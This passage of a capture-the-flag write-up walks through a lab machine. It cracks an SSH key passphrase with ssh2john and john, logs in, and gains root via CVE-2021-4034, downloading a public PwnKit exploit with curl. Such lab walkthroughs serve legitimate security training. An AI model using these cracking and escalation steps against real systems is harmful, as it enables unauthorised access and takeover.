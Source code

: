After using exiftool and binwalk I see no stent in the meme picture, so I got down to cracking the id_rsa file using ssh2john & john. I used the downloaded dictonary file to bruteforce the hashfile.

ssh2john syntax: "ssh2john id_rsa > id_rsa.hash"
john syntax: "john id_rsa.hash dict.list"

After john has run I see that the password for the id_rsa file is "<redacted>"
  
<img width="319" alt="image" src="https://user-images.githubusercontent.com/66540055/193352934-2b4ba42c-8dc5-4703-b154-79d6fe0637f5.png">

  
  
  
# Initial Access

Before using the id_rsa file I must change the permissions, otherwise it will not be accepted, "chmod 600 id_rsa"
Using the id_rsa file and the newly found password I ssh'd into the machine using the username found from the webserver's landing page:
  
<img width="421" alt="image" src="https://user-images.githubusercontent.com/66540055/193353943-d3cb6cc7-8c5c-44b5-a855-479e5145146c.png">
 
# User Flag
Now that I am accessing the machine as a user I see the user.txt file!
  
<img width="213" alt="image" src="https://user-images.githubusercontent.com/66540055/193354695-bcf46821-26b3-45b7-8e9f-1aacfeb1d5a3.png">

  
# Priviledge Escalation
Now that I am in the server, I ran the following to check for bad permissions: 
"find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null"
Nothing much, next I uploaded linpeas to do all the heavy lifting for me using wget and a simple python http server:
  
<img width="952" alt="image" src="https://user-images.githubusercontent.com/66540055/193355463-8d1be9b1-41fa-4e5e-af92-631c8b5109ea.png">

After making the script exacutable and running it I saw that this machine is vulnerableto CVE-2021-4034:
  
<img width="342" alt="image" src="https://user-images.githubusercontent.com/66540055/193355704-c8827cc2-a689-4c9e-b1b5-89c5cccfd5d7.png">
  
After doing some Google searching I found a really useful toolkit created by Ly4k:
Using this oneliner the toolkit is downloaded "curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit"
I uploaded the toolkit using the same method as uploading linpeas, made it executable and upon executing it I got root!
  
<img width="944" alt="image" src="https://user-images.githubusercontent.com/66540055/193356867-2b911fdf-7c11-4a6f-aa3c-c70af59059ea.png">

# Root flag
Moving to the root directory I found the final flag!
  